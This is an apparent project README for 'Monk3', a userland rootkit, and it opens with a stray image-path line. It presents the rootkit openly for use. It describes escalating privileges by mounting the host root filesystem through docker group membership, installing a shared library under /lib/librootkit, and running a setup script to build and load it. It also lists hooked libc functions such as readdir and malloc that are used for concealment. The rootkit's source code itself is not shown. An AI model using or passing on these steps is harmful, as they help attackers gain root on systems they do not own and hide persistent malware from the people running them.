 # Monk3 userland rootkit

### dependencies:
<ul>
    <li>docker</li>
</ul>

### my specs:

<ul>
    <li>Docker version 20.10.10, build tag v20.10.10</li>
    <li>Docker Alpine Linux container kernel version 5.13.19_1</li>
    <li>Void Linux kernel version 5.13.19_1</li>
    <li>gcc (GCC) 10.2.1 20201203</li>
</ul>


# how does it work?
Monk3 uses docker to escalate privileges and have access to the user's file system by mounting the root directory into /mnt and accessing it.

example:
```
cd /
docker run -v /:/mnt -it alpine
cd mnt
ls
```
then creates /lib/librootkit/ where the compiled source (monk3.lib.so) will remain.
```
mkdir /lib/librootkit
mv monk3.lib.so /lib/librootkit/monk3.lib.so
```

# configuration guide
to compile and run monk3, just make sure you have docker installed and that your hostname belongs to the same group as docker does
(setup.sh does this for you)

### compile and run rootkit:
```
chmod u=rwx setup.sh
./setup.sh -b
```

### delete and unload rootkit:
```
chmod u=rwx setup.sh
./setup.sh -r
```
# hooked functions:
``` C
struct dirent *(*orig_readdir)(DIR *dir);
struct dirent64 *(*orig_readdir64)(DIR *dir);
static void *(*orig_malloc)(size_t) = NULL;
static int (*orig_main)(int, char **, char **);
```
